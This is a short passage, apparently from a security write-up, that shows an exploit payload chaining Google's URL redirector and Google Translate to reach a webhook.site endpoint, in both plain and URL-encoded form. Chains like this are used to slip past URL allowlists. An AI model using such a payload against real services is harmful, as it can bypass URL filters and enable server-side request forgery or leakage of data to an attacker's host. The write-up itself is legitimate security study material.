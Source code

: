 <img src="images/image_15.png" alt="Setup Webhook.site Redirect" width="600">

### Step 2: Construct Exploit Payload

**Chain structure:**

```
https://google.com/url?q=
    https://translate.google.com/translate?u=
        https://webhook.site/e2e3258f-c822-43b8-a3b5-357609708561
```

**Payload:**

```
https://google.com/url?q=https%3A%2F%2Ftranslate.google.com%2Ftranslate%3Fu%3Dhttps%253A%252F%252Fwebhook.site%252Fe2e3258f-c822-43b8-a3b5-357609708561
```
